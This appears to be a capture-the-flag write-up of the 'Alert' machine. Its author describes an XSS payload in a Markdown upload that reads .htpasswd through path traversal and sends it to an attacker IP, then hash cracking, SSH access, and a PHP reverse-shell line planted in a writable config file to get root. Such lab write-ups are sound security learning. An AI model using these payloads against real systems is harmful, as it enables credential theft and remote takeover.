

Alert was an engaging box that required exploiting a Markdown file upload vulnerability and leveraging XSS to achieve Local File Inclusion (LFI). By tricking an administrator into executing a malicious payload, I retrieved hashed credentials from an internal subdomain and cracked them to gain SSH access as Albert. Privilege escalation was achieved by modifying a writable configuration file within a locally running web monitoring service, injecting a reverse shell to gain root. This box emphasized the risks of improper input validation, exposed internal services, and misconfigured file permissions.

# User flag



Nmap scan reveals only two ports. I'll check the revealed website.



This website provides a file upload functionality. Looking at the source code, I can see that only .md files are accedpted and that there is a .php script taking the uploaded files. There is also a contact form.

```
# Source

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
            </nav>
    <div class="container">
        <h1>Markdown Viewer</h1><div class="form-container">
            <form action="visualizer.php" method="post" enctype="multipart/form-data">
                <input type="file" name="file" accept=".md" required>
                <input type="submit" value="View Markdown">
            </form>
          </div>    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

Any attempt to upload a file that is not a .md file would end up with a 'Error: File must be a Markdown file (.md). ' error.

Having no leads to check, I began fuzzing for subdomains and searching for directories.



Found a statistics subdomain.



And a bunch of files. The subdomain requires credentials to access, so I wont be able to just check the files.

## LFI via XSS

I tested whether inputting links into the message form would bring any results, and it did!



Someone clicked the link as soon as I sent it. It may be possible to snatch something from the person on the other side, or maybe a file?

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.2:80/?file_content=" + encodeURIComponent(data));
  });
</script>
```
This script should send me back the contents of .htpasswd, as the file parameter is not sanitized at all.

After uploading the .md file, I noticed a share link in the bottom left of the screen.



I'll copy the link and send it over to the contact form.


What came back is URL encoded data! I'll decode it using cyberchef.

```
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A > <pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>
```
Its a hash! I'll send it over to hashcat for some quick cracking.

```
hashcat -a 0 hash.txt /home/kali/Downloads/rockyou.txt --username
```

I have the credentials for Albert! I'll try to SSH into the box now.



# Privilege escalation



During my recon, I noticed a service running locally at port 8080. I'll forward the port and check it out.

```
ssh -L 8080:127.0.0.1:8080 albert@10.10.11.44
```


Its a website monitor page. Not much to see here, but I'll keep it in mind.

Inside the web monitor's directory on the box, I found something interesting.



Since Albert is a member of the management group, he can write into the config file. I'll poison the file with a reverse shell script, which should grant me a root reverse shell!

```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'");
?>
```



Rooted!
